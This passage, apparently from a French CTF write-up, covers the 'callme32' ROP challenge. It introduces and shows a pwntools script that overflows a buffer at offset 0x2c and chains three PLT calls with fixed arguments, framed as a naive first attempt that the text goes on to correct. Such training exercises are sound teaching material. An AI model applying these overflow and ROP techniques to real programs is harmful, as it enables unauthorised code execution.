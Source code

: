 Le paragraphe suivant essaie de décrire la solution en passant par l'experience de l'appriche naive.
Il peut être sauté par le lecteur impatient.

### Première tentative

Observons ce qui se passe avec notre première ropchaine et les script python suivant.

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break apres le read dans pwnme
gs='''
b *pwnme+97
c
'''

# Set up pwntools for the correct architecture
elf =  ELF('callme32')
context.binary=elf

# Offset avant ecrasement de l'adresse de retour
offset=0x2c

callme_one=elf.plt['callme_one']
callme_two=elf.plt['callme_two']
callme_three=elf.plt['callme_three']

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

log.info(f"{callme_one=:x}")
log.info(f"{callme_two=:x}")
log.info(f"{callme_three=:x}")

# io.recvuntil(b"> ")

PL =b"A"*offset
PL+=p32(callme_one)
PL+=p32(0xdeadbeef)
PL+=p32(0xcafebabe)
PL+=p32(0xd00df00d)

PL+=p32(callme_two)
PL+=p32(0xdeadbeef)
PL+=p32(0xcafebabe)
PL+=p32(0xd00df00d)

PL+=p32(callme_three)
PL+=p32(0xdeadbeef)
PL+=p32(0xcafebabe)
PL+=p32(0xd00df00d)

# Affichage pour mise au point avec printf.
print(''.join([ f"\\x{c:02x}" for c in PL]))

io.sendline(PL)
io.interactive()
```